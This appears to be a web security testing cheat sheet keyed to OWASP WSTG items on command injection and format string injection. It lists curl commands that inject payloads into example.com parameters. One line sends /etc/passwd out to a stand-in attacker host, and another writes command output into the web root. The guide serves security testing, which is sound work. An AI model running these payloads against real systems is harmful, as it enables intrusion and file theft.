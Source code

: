 
## WSTG-INPV-12: Testing for Command Injection

**Objective**: Identify and assess the command injection points with special characters (i.e.: ; & $ > < ' |).

### Commands

```bash
# Test for basic command injection
curl -s "https://example.com/ping?host=example.com;id"
curl -s "https://example.com/ping?host=example.com|id"

# Test for command injection with different delimiters
for delim in ";" "|" "&" "&&" "||" "`" "$()"; do
  curl -s "https://example.com/ping?host=example.com${delim}id"
done

# Test for blind command injection (time-based)
curl -s "https://example.com/ping?host=example.com;sleep 10"
curl -s "https://example.com/ping?host=example.com|sleep 10"

# Test for blind command injection (output redirection)
curl -s "https://example.com/ping?host=example.com;id>/var/www/html/output.txt"
curl -s "https://example.com/ping?host=example.com|curl -d @/etc/passwd http://attacker.com"

# Test for command injection with URL encoding
curl -s "https://example.com/ping?host=example.com%3Bid"
curl -s "https://example.com/ping?host=example.com%7Cid"

# Test for command injection in different parameters
for param in "host" "ip" "server" "domain" "cmd" "exec"; do
  curl -s "https://example.com/ping?$param=example.com;id"
done

# Use specialized tools for command injection
commix --url="https://example.com/ping?host=example.com" --level=3
```

## WSTG-INPV-13: Testing for Format String Injection

**Objective**: Assess whether injecting format string conversion specifiers into user-controlled fields causes undesired behavior from the application.

### Commands

```bash
# Test for basic format string vulnerabilities
curl -s "https://example.com/page?param=%x.%x.%x.%x"
curl -s "https://example.com/page?param=%n%n%n%n"

# Test for format string in different parameters
for param in "name" "id" "user" "message" "text"; do
  curl -s "https://example.com/page?$param=%x.%x.%x.%x"
done

# Test for format string with different specifiers
for spec in "%x" "%s" "%n" "%p" "%d"; do
  curl -s "https://example.com/page?param=$spec.$spec.$spec.$spec"
done

# Test for format string in POST data
curl -s -X POST "https://example.com/form" -d "message=%x.%x.%x.%x"

```